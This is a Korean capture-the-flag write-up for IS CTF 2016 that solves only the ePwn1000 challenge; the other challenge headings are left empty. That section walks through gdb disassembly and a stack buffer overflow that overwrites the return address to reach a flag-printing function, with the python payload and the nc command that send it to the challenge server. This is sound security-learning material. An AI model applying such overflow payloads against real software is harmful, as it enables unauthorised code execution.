

# IS CTF 2016 Write-up

team02 응 답없음

* ePwn1000, ePwn1200, ePwn1500, ePwn1700, ePwn1800
* mPwn2000, mPwn2300
* Misc2000, Misc2300, Misc2400, Misc2500, Misc2600, Misc2700, Misc2800, Misc3000
* Web1000, Web2000
* Bon1500, Bon1700, Bon2000, Bon2300, Bon2700

## ePwn1000

````
ied206@TS140  ~/ISCTF
$ wget http://45.63.124.167/files/epwn1000
ied206@TS140  ~/ISCTF
$ chmod +x epwn1000
ied206@TS140  ~/ISCTF
$ python -c 'print "A"*0x20 + "\x48\xd5\xff\xff" + "\x0E\x85\x04\x08"' > payload
ied206@TS140  ~/ISCTF
$ nc 45.32.46.195 10000 < payload
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHֿÿ
ISCTF{Overfffffffflow!!}
````

### 풀이

분석을 위해 epwn1000 바이너리를 IDA로 열어보았다.
컴파일러 stub을 제외한 함수들은 main과 cat_flag 두 개가 존재한다.

main:


cat_flag:


cat_flag 함수가 호출되어야 flag를 볼 수 있으나, cat_flag은 main에서 호출되지 않는다.
하지만 이 바이너리는 stack canary 등이 적용되어 있지 않으므로, scanf를 사용해 BOF 공격을 할 수 있다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	sub    $0x20,%esp
   0x08048524 <+6>:	mov    0x804a040,%eax
   0x08048529 <+11>:	push   $0x0
   0x0804852b <+13>:	push   %eax
   0x0804852c <+14>:	call   0x80483b0 <setbuf@plt>
   0x08048531 <+19>:	add    $0x8,%esp
   0x08048534 <+22>:	mov    0x804a044,%eax
   0x08048539 <+27>:	push   $0x0
   0x0804853b <+29>:	push   %eax
   0x0804853c <+30>:	call   0x80483b0 <setbuf@plt>
   0x08048541 <+35>:	add    $0x8,%esp
   0x08048544 <+38>:	push   $0x804861d
   0x08048549 <+43>:	call   0x80483c0 <printf@plt>
   0x0804854e <+48>:	add    $0x4,%esp
   0x08048551 <+51>:	lea    -0x20(%ebp),%eax
   0x08048554 <+54>:	push   %eax
   0x08048555 <+55>:	push   $0x8048630
   0x0804855a <+60>:	call   0x80483f0 <__isoc99_scanf@plt>
   0x0804855f <+65>:	add    $0x8,%esp
   0x08048562 <+68>:	lea    -0x20(%ebp),%eax
   0x08048565 <+71>:	push   %eax
   0x08048566 <+72>:	push   $0x8048633
   0x0804856b <+77>:	call   0x80483c0 <printf@plt>
   0x08048570 <+82>:	add    $0x8,%esp
   0x08048573 <+85>:	mov    $0x0,%eax
   0x08048578 <+90>:	leave
   0x08048579 <+91>:	ret
End of assembler dump.
(gdb) disas cat_flag
Dump of assembler code for function cat_flag:
   0x0804850b <+0>:	push   %ebp
   0x0804850c <+1>:	mov    %esp,%ebp
   0x0804850e <+3>:	push   $0x8048600
   0x08048513 <+8>:	call   0x80483d0 <system@plt>
   0x08048518 <+13>:	add    $0x4,%esp
   0x0804851b <+16>:	nop
   0x0804851c <+17>:	leave
   0x0804851d <+18>:	ret
End of assembler dump.
````

이 코드에서 찾을 수 있는 지역변수는 [EBP-0x20] 하나이며, 이는 uint8_t buf[20]; 과 같은 형태를 가지고 있다. IA32의 스택 프레임에 따라, main의 return address는 buf (20B) + exEBP (4B) 다음에 존재한다. return address를 cat_flag 함수의 주소로 바꿔주면 이 함수가 실행되게 할 수 있다.

이론상으로, 다음과 같은 코드로 cat_flag를 실행할 수 있다.

````
$ python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' | ./epwn1000
````

그러나 이 경우, \x0B\x85\x04\x08 부분이 제대로 print되지 않고 있고, SegFault가 나서 실패한다.

````
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    6625 done                python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' |
       6626 segmentation fault  ./epwn1000
````

문제를 해결하기 위해 gdb로 stack을 살펴본 결과, \x0B\x85\x04\x08가 \x00\x85\x04\x08으로 바뀌어 들어가 있었다.

````
gdb) x/32x $esp
0xffffd548:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd558:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd568:	0x41414141	0x00850408	0x00000001	0xffffd604
0xffffd578:	0xffffd60c	0x00000000	0x00000000	0x00000000
0xffffd588:	0xf7fc5000	0xf7ffdc04	0xf7ffd000	0x00000000
0xffffd598:	0xf7fc5000	0xf7fc5000	0x00000000	0x87a82a09
0xffffd5a8:	0xbda92419	0x00000000	0x00000000	0x00000000
0xffffd5b8:	0x00000001	0x08048410	0x00000000	0xf7fedee0
````

cat_flag 내의 call 명령어는 0x0804850E에서 호출된다. 현재 \x0B가 문제를 일으키고 있으므로, 이를 \x0E로 바꾼다.

````
$ python -c 'print "A"*0x24 + "\x0E\x85\x04\x08"' | nc 45.32.46.195 10000
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ISCTF{Overfffffffflow!!}
````

flag를 얻을 수 있다.

## ePwn1200

## ePwn1500

## ePwn1700

## ePwn1800

## mPwn2000

## mPwn2300

## Misc2000

## Misc2300

## Misc2400

## Misc2500

## Misc2600

## Misc2700

## Misc2800

## Misc3000

## Web1000

## Web2000

## Bon1500

## Bon1700

## Bon2000

## Bon2300

## Bon2700
